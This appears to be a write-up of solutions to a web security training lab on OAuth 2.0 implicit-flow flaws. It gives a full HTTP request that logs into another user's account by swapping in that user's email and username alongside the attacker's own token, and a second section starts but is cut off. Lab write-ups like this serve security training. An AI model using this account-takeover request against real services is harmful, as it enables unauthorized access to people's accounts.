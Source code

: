 # OAuth 2.0 authentication vulnerabilities

### >> 1. Authentication bypass via OAuth implicit flow
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password. To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net. You can log in with your own social media account using the following credentials: wiener:peter.`

Solution: 
- Change the payload to reflect the email address and username of Carlos
````
POST /authenticate HTTP/1.1
Host: ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Cookie: session=AYlXg9S3SS3Yb7OjYfXNTGl8gFqgRvdt
Content-Length: 111
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"tY2Y8c57C6kHCy8X3BxnE4Hm3YoJyeOfMuhjlkFSQeb"}
````

### >> 2. 
